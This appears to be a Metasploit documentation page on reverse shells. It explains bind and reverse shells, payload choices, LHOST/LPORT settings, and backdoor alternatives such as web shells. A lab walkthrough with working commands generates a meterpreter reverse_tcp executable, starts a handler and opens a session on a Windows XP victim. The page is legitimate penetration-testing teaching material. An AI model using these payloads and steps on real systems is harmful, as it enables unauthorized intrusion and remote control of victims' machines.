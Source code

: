 ```yaml
---
layout: "default"
title: "How to use a reverse shell in Metasploit"
parent: "Using Metasploit"
---
```


## On this page
* [List of Metasploit reverse shells](#list-of-metasploit-reverse-shells)
  * [Windows common reverse shell](#windows-common-reverse-shell)
  * [Linux common reverse shell](#linux-common-reverse-shell)
* [When to use a reverse shell](#when-to-use-a-reverse-shell)
* [When a reverse shell isn't needed](#when-a-reverse-shell-isnt-needed)
* [How to set up for a reverse shell during payload generation](#how-to-set-up-for-a-reverse-shell-during-payload-generation)
* [Demonstration](#demonstration)
  * [Step 1: Generate the executable payload](#step-1-generate-the-executable-payload)
  * [Step 2: Copy the executable payload to box B](#step-2-copy-the-executable-payload-to-box-b)
  * [Step 3: Set up the payload handler on box A](#step-3-set-up-the-payload-handler-on-box-a)
  * [Step 4: Double-click on the malicious executable](#step-4-double-click-on-the-malicious-executable)
  * [Step 5: View the meterpreter/payload session on box A](#step-5-view-the-meterpreterpayload-session-on-box-a)

There are two popular types of shells: bind and reverse. 
Bind shell - Opens up a new service on the target machine and requires the attacker to connect to it to get a session.
Reverse shell - A reverse shell is also known as a connect-back. It requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally, the attacker receives the shell. 

You can learn more about the primary use of payloads in the 5.2.4 Selecting the Payload section of the old [Metasploit Users Guide](http://cs.uccs.edu/~cs591/metasploit/users_guide3_1.pdf).

This article goes over using a reverse shell to get a session.

## List of Metasploit reverse shells
 
To get a list of reverse shells, use the `msfpayload` command. B

```bash
./msfpayload -l |grep reverse
```

As a rule of thumb, always pick a Meterpreter, because it currently provides better support of the post-exploitation Metasploit has to offer. For example, railgun, post modules, different meterpreter commands.

### Windows common reverse shell

 In Windows, the most commonly used reverse shell is `windows/meterpreter/reverse`.  You can also use `windows/meterpreter/reverse_http` or `windows/meterpreter/reverse_https` because their network traffic appears a little bit less abnormal.

### Linux common reverse shell

In Linux, you can try `linux/x86/meterpreter/reverse_tcp`, or the 64-bit one. The `linux/x86/shell_reverse_tcp` has been the most stable.

## When to use a reverse shell

If you find yourself in one of the following scenarios, then you should consider using a reverse shell:

* The target machine is behind a different private network.
* The target machine's firewall blocks incoming connection attempts to your bindshell.
* Your payload is unable to bind to the port it wants due to whatever reason.
* You can't decide what to choose.

## When a reverse shell isn't needed

Generally speaking, if you can backdoor an existing service, you may not need a reverse shell. For example, if the target machine is already running an SSH server, then you can try adding a new user to it and use that.

If the target machine is running a web server that supports a server-side programming language, then you can leave a backdoor in that language. For example, many Apache servers support PHP, then you can use a PHP "web shell". IIS servers usually support ASP or ASP.net. The Metasploit Framework offers payloads in all these languages and many others.

This also applied to VNC, remote desktop, SMB (psexec), or other remote admin tools, etc.

## How to set up for a reverse shell during payload generation

When you generate a reverse shell with either `msfpayload` or `msfvenom`, you must know how to configure the following:

* **LHOST** - This is the IP address you want your target machine to connect to. If you're in a local area network, it is unlikely your target machine can reach you unless you both are on the same network. In that case, you will have to [find out your public-facing IP address](https://www.google.com/webhp?q=ip#q=ip), and then configure your network to port-forward that connection to your box. LHOST should not be "localhost", or "0.0.0.0", or "127.0.0.1", because if you do, you're telling the target machine to connect to itself (or it may not work at all).
* **LPORT** - This the port you want your target machine to connect to.

When you set up a listener for the reverse shell, you also at least need to configure LHOST and LPORT, but slightly different meanings (different perspective):

* **LHOST** - This is the IP address you want your listener to bind to.
* **LPORT** - This is the port you want your listener to bind to.

You should make sure the listener has started first before executing the reverse shell.

## Demonstration

In this demonstration, we have two boxes:

**Box A:**

* The attacker's box that receives the payload session
* IP is: 192.168.1.123 (ifconfig)
* On the same network as the victim machine

**Box B:**

* The "victim" machine
* Windows XP
* IP is: 192.168.1.80 (ipconfig)
* On the same network as the attacker machine
* For testing purposes, no antivirus enabled.
* For testing purposes, no firewall enabled, either.

### Step 1: Generate the executable payload

On the attacker's box, run `msfpayload` or `msfvenom`: 

```bash
$ ./msfpayload windows/meterpreter/reverse_tcp lhost=192.168.1.123 lport=4444 X > /tmp/iambad.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/meterpreter/reverse_tcp
Length: 287
Options: {"LHOST"=>"192.168.1.123", "LPORT"=>"4444"}
```

### Step 2: Copy the executable payload to box B

Box B is the victim machine. 

### Step 3: Set up the payload handler on box A

Box A is the attacker machine. 

```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
```

### Step 4: Double-click on the malicious executable

This step requires no further explanation.

### Step 5: View the meterpreter/payload session on box A 

```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500
meterpreter >
```

The meterpreter prompt means you are currently interacting with the payload.
